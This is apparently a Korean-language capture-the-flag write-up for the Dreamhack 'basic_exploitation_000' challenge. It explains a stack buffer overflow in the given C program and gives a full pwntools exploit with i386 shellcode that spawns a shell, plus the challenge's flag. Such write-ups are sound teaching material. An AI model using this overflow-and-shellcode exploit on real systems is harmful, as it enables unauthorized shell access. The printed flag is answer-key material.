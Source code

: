 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "basic_exploitation_000"  Write-UP</h1>
</body>
<br>
<br>
</html>

2025.09.22 풀이

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
 
 
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
 
 
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
 
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
 
 
int main(int argc, char *argv[]) {
 
    char buf[0x80];
 
    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
 
    return 0;
}
```

주어진 문제의 코드를 살펴보았다. 

코드를 살펴보니, setvbuf(stdin, NULL, _IONBF, 0) or setvbuf(stdout, NULL, _IONBF, 0)

부분을 통해, 입출력 버퍼링을 방지하는 것을 확인할 수 있었다.

그 후, signal(SIGALRM, alarm_handler); alarm(30) 통해 프로그램에

30초 타임아웃을 설정하여, 자동화된 잇스플로잇이 너무 오래 동작하면

종료되게끔 구성되어있었다. 

char buf[0x80] 을 보니, 128 바이트 크기의 지역변수에 할당되는 것을 알 수 있다. 

printf("buf = (%p)\n", buf) 이를 보면, 실행 중인 스택의 buf 주소를 출력해주고 있다.

scanf("%141s", buf) 부분을 보니, 최대 141문자까지 읽도록 제한을 주는 것을 알 수있다.

이를 이용하여 버퍼 오버플로우를 발생시키는 데 이용하면 될 것으로 보인다. 

<br>

</br> 

```
#!/usr/bin/env python3
from pwn import *
import re, sys

if len(sys.argv) != 3:
    print("usage: python3 exploit.py <host> <port>"); sys.exit(1)
host, port = sys.argv[1], int(sys.argv[2])

context.clear(arch='i386', os='linux')
# scanf 
sc = (
    b"\x31\xc0\x50\x68\x6e\x2f\x73\x68"
    b"\x68\x2f\x2f\x62\x69\x89\xe3\x31"
    b"\xc9\x31\xd2\xb0\x08\x40\x40\x40"
    b"\xcd\x80"
)

p = remote(host, port)
data = p.recvline(timeout=8)
m = re.search(rb'0x[0-9a-fA-F]+', data)
if not m:
    data += p.recv(1024, timeout=1)
    m = re.search(rb'0x[0-9a-fA-F]+', data)
if not m:
    p.close(); sys.exit(1)

buf = int(m.group(0), 16)
payload = sc + b"A" * (132 - len(sc)) + p32(buf)
p.sendline(payload)
p.interactive()
```

이를 통해, 다음과 같은 쉘코드를 짰다.

서버가 buf 주소를 출력해주니까 그 값을 받아서 리턴 주소에 그대로 넣어

buf로 점프한다는 점을 이용하였다. 

scanf의 제약을 피하려고 널, 공백, 제어문자가 없는 짧은 쉘코드 sc를 작성하고,

이를 버퍼 맨 앞에 두는 방식으로 작성해보았다.

쉘코드, 뒤에 RET 직전까지 패딩을 채우고 마지막 4 바이트에 버퍼의 주소를 리틀엔디안으로

넣어서 복귀 시점에 버퍼로 점프하도록 하였다.

<br>

</br> 

<img width="1280" height="330" alt="image" src="https://github.com/user-attachments/assets/33263624-a6e5-4f47-aa64-6ac8a8b78789" />

이를 실행해해보면, flag 값을 얻을 수 있다!

<br>

</br> 

```
DH{465dd453b2a25a26a847a93d3695676d}
```
